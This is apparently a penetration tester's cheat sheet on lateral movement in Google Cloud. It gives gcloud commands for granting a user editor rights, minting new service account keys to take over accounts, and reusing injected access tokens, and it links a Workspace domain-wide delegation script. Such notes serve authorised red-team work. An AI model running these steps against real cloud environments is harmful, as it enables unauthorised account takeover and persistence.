 # Lateral Movement
## Index
* [GCP Web console](#GCP-Web-console)
* [Gcloud CLI](#Gcloud-CLI)
  * [Access tokens](#Access-tokens)
* [GCP to Workspace](#GCP-to-Workspace)

## GCP Web console
- Sometimes GUI access might be desirable
- Only available to user accounts, not service accounts

#### Try to add a new editor to a project
```
gcloud projects add-iam-policy-binding <project name> --member user:<email address> --role roles/editor
```

## To other projects
### Take over service accounts
- Roles: `roles/iam.serviceAccountAdmin`, `roles/iam.serviceAccountKeyAdmin`
- Permissions: `iam.serviceAccountkeys.create`

#### List keys associated with the specified service account
```
gcloud iam service-accounts keys list --iam-account <SERVICE ACCOUNT ID>
```

#### Create a new key for specified service account.
- Saves credentials in `key.json`
```
gcloud iam service-accounts keys create key.json --iam-account <SERVICE ACCOUNT ID>
```

#### Authenticate with key file
```
gcloud auth activate-service-account --key-file key.json
```

#### List projects
```
gcloud projects list
```

## Gcloud CLI
### Acess tokens
#### Inject access token in gcloud CLI
- Use `-D` to delete the access token
- https://github.com/RedTeamOperations/GCPTokenReuse
```
python3 /opt/gc/GCPTokenReuse/Gcp-Token-Updater.py -I --access-token "<ACCESS TOKEN>" --account-name <ACCOUNT EMAIL>
```

#### List sessions
```
gcloud auth list
```

#### Change user
```
gcloud config set account <ACCOUNT EMAIL>
```

#### Access token parameter
- Save acces token in file and use the `--access-token-file=` parameter with gcloud CLI

### Accounts
#### Change account
```
gcloud config set account <ACCOUNT>
```

#### Account parameter
- use the parameter `--account <ACCOUNT` to execute commands with that account.

## GCP to Workspace
### Domain wide delegation
- https://gitlab.com/gitlab-com/gl-security/threatmanagement/redteam/redteam-public/gcp_misc/-/raw/master/gcp_delegation.py
